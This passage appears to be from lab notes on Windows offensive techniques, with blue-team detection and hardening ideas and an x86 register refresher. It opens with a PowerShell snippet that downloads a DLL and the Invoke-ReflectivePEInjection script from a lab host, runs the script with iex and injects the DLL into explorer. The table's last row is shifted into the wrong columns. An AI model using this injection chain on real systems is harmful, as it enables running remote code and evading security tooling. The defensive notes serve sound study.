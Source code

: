 
## Reflective PE Injection Example

Download a DLL and inject into a live process using **Invoke-ReflectivePEInjection**:

```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.177/ConsoleApp1.dll')
$procid = (Get-Process -Name explorer | Select-Object -First 1).Id

iex (New-Object Net.WebClient).DownloadString('http://192.168.45.177/Invoke-ReflectivePEInjection.ps1')
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

> Many EDR products watch for reflective injection patterns. Use isolated lab hosts.

---

## Detection & Hardening Notes

Below are starting points for blue teams who want to detect or prevent these techniques.

| Technique                         | Detection Ideas                                                                                                                                | Hardening / Prevention                                                                                                    |                                                                                                       |
| --------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| ETW patch (`EtwEventWrite`)       | Monitor `VirtualProtect` calls into loaded, signed modules; scan memory for modified first bytes of known exports; ETW self‑health counters.   | Protected process light (PPL) for security tooling; code integrity; blocking RWX transitions in signed DLL pages via EDR. |                                                                                                       |
| AMSI tamper (context null, patch) | AMSI provider health check; memory compare of `amsi.dll` code in process vs on‑disk; alert on reflective access to `AmsiUtils` private fields. | AMSI instrumentation with additional integrity guard; script block logging; Constrained Language Mode; WDAC / AppLocker.  |                                                                                                       |
| In‑memory assembly load           | PowerShell Script Block + Module logging; `.NET` ETW loader events; unusual GZip+Base64 decode patterns.                                       | Restrict PowerShell to CLM; require signed scripts; disable DownloadString via proxy egress controls.                     |                                                                                                       |
| Reflective PE injection           | API call chain: `OpenProcess`/`WriteProcessMemory`/`CreateRemoteThread`                                                                        | `QueueUserAPC`; memory region with executable + writable; unsigned image mapping.                                         | EDR memory protection; attack surface reduction rules; LSASS and high‑value proc handle restrictions. |

---

## Appendix A – PushAD / PushFD Refresher (x86)

While most of the above lab is x64‑oriented, here’s a quick refresher from our earlier discussion.

### `PUSHAD` (x86)

Pushes 8 general‑purpose registers in this order: `EAX, ECX, EDX, EBX, ESP(original), EBP, ESI, EDI`.

### `POPAD` (x86)

Restores in reverse order **except ESP is skipped**: pops into `EDI, ESI, EBP, (discard), EBX, EDX, ECX, EAX`.

### `PUSHFD` / `POPFD`

Save/restore full 32‑bit `EFLAGS` to/from the stack.

**Stack Illustration:** If ESP was `0x1000` before `PUSHAD`:

```
ESP-4  = EAX
ESP-8  = ECX
ESP-12 = EDX
ESP-16 = EBX
ESP-20 = original ESP
ESP-24 = EBP
ESP-28 = ESI
ESP-32 = EDI   <-- deepest pushed
```
